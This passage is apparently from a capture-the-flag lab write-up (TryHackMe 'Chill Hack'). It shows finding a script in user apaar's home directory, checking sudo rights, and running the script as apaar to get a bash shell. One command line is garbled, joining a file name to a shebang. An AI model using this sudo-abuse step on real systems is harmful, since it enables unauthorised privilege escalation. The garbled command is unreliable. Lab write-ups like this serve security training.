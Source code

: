 If we go inside and look, we can see a file **.helpline.sh** which looks suspicious.

```sh
cd apaar
ls -la
```

![file sh](/images/THM/chillhack/Captura14.PNG)

Let's see what sudo permissions we have.

```sh
sudo -l
```

![sudo -l](/images/THM/chillhack/Captura15.PNG)

We are going to take advantage of the fact that we can execute the script as apaar to elevate our privileges.

```sh
sudo -u apaar /home/apaar/.helpline.#!/bin/sh
/bin/bash
/bin/bash
id
```

![appar elevation](/images/THM/chillhack/Captura16.PNG)
